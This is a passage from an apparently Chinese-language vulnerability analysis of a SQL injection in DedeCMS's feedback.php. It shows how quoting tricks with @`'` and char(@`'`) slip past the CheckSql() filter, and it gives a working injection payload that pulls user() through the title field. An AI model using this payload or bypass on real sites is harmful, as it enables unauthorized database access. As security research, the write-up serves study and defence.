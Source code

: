 ```
        {
            return $db_string;
        }
    }

```

但通过跟踪这段代码发现，它有个特征就是会将两个单引号之间的内容用$s$替换，例如’select’会被替换为$s$，这里用两个@`'`包含敏感字，这样$clean 变量中就不会出现敏感字，从而绕过 CheckSql()函数检测。

这里可以设置 title 为如下代码，一方面绕过 ids 防注入代码检测，另一方面加一个#注释掉后面的代码，但是还要做一下变形，就是这个 char(@`'`)了。因为#@__feedback 的所有字段都被设置为 NOT NULL，而@`'`是一个变量，默认为 NULL，直接插入@`'`的话会报错，所以需要以 char(@`'`)的方法转换一下。

```
',char(@`'`),1,1,1,1,1,1,1,(SELECT user()))#,(1, 
```

跟踪代码，如图所示 ￼ ![enter image description here](img/img19_u37_png.jpg)

如下 SQL 语句

```
INSERT INTO `dede_feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`, `mid`,`bad`,`good`,`ftype`,`face`,`msg`) VALUES ('1','1','游客','\',char(@`\'`),1,1,1,1,1,1,1,(SELECT user()))#,(1,','127.0.0.1','1','1364401789', '0','0','0','feedback','1','genxor'); 
```

被替换为了

```
insert into `dede_feedback`(`aid`,`typeid`,`username`,`arctitle`,`ip`,`ischeck`,`dtime`, `mid`,`bad`,`good`,`ftype`,`face`,`msg`) values ($s$,$s$,$s$,$s$,$s$,$s$,$s$, $s$,$s$,$s$,$s$,$s$,$s$); 
```

字符串中没有任何敏感字，成功绕过 CheckSql()函数检测。

POST 如下请求给 feedback.php，如下所示：
